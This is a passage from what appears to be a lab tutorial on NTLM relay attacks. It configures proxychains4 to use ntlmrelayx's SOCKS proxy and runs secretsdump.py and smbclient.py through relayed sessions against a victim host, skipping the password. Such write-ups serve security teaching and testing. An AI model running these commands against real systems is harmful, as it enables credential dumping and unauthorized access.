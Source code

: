 To make it work, you also need to modify the following proxychains4 configuration file to change the default port 9050 to 1080 that ntlmrelayx uses:
```
nano /etc/proxychains4.conf 
```
So the very end of the file should look like this:
```
[ProxyList]
# add proxy here ...
socks4 127.0.0.1 1080
```
As you can see, if you input the “socks” command in the ntmlrelayx console, it will present a nice overview of which relays were successful. Please note that those connections will be maintained open “indefinitely”.

![socks](images/socks.png)

Anytime an attacker wants to use an application or tool and route the connection through the proxy, he would simply prepend the command with "proxychains4".

This way the attacker can perform further actions in the already open connection in a very convenient and efficient way, for example opening another terminal and typing:
```
proxychains4 secretsdump.py ntlmlab/victim@10.0.0.10
```
or
```
proxychains4 smbclient.py ntlmlab/victim@10.0.0.10
```

After issuing the command, when prompted for a password just leave it blank and hit enter. 
This way the tool understands that you want to use the open connection that was already intercepted and relayed before, effectively bypassing the password requirement.

![proxychain](images/proxychain.png)
